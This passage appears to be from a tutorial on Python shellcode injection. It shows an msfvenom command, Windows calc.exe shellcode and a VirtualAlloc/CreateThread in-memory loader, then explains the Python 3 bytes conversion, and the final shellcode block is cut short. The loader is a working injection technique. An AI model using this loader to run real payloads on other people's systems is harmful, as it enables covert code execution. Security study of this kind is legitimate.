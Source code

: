 Generate the shellcode.

```
msfvenom -a x86 --platform windows -p windows/exec cmd=calc.exe -f python
```

The shellcode itself.

```
shellcode =  ""
shellcode += "\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
shellcode += "\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
shellcode += "\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
shellcode += "\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
shellcode += "\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
shellcode += "\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
shellcode += "\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
shellcode += "\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
shellcode += "\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
shellcode += "\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
shellcode += "\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00"
shellcode += "\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5"
shellcode += "\xa2\x56\x68\xa6\x95\xbd\x9d\xff\xd5\x3c\x06\x7c\x0a"
shellcode += "\x80\xfb\xe0\x75\x05\xbb\x47\x13\x72\x6f\x6a\x00\x53"
shellcode += "\xff\xd5\x63\x61\x6c\x63\x2e\x65\x78\x65\x00"
```

Say you executed it using the VirtualAlloc method, like shown below (don't worry about the details of this yet).

```
memptr = VirtualAlloc(0, len(shellcode), MEM_COMMIT, PAGE_READWRITE_EXECUTE)
RtlMoveMemory(memptr, shellcode, len(shellcode))
VirtualProtect(memptr, len(shellcode), PAGE_READ_EXECUTE, 0)
thread = CreateThread(0, 0, memptr, 0, 0, 0)
WaitForSingleObject(thread, 0xFFFFFFFF)
```

If you were using Python 2 to run this, you would get your calc.exe execution. Great. Python 2 is fine with us passing the shellcode to RtlMoveMemory as a string type. This is because in Python 2, strings are stored as bytes, not unicode objects. In Python 3, strings are stored as unicode by default. Running this same code in Python 3 will net you the following error:

![Null Byte Error](/assets/images/python_injection_1.PNG)

The alteration of converting the above shellcode to bytes as shown below will make this Python 3 compatible.

```
shellcode =  b""
shellcode += b"\xfc\xe8\x82\x00\x00\x00\x60\x89\xe5\x31\xc0\x64\x8b"
shellcode += b"\x50\x30\x8b\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7"
shellcode += b"\x4a\x26\x31\xff\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf"
shellcode += b"\x0d\x01\xc7\xe2\xf2\x52\x57\x8b\x52\x10\x8b\x4a\x3c"
shellcode += b"\x8b\x4c\x11\x78\xe3\x48\x01\xd1\x51\x8b\x59\x20\x01"
shellcode += b"\xd3\x8b\x49\x18\xe3\x3a\x49\x8b\x34\x8b\x01\xd6\x31"
shellcode += b"\xff\xac\xc1\xcf\x0d\x01\xc7\x38\xe0\x75\xf6\x03\x7d"
shellcode += b"\xf8\x3b\x7d\x24\x75\xe4\x58\x8b\x58\x24\x01\xd3\x66"
shellcode += b"\x8b\x0c\x4b\x8b\x58\x1c\x01\xd3\x8b\x04\x8b\x01\xd0"
shellcode += b"\x89\x44\x24\x24\x5b\x5b\x61\x59\x5a\x51\xff\xe0\x5f"
shellcode += b"\x5f\x5a\x8b\x12\xeb\x8d\x5d\x6a\x01\x8d\x85\xb2\x00"
shellcode += b"\x00\x00\x50\x68\x31\x8b\x6f\x87\xff\xd5\xbb\xf0\xb5"
```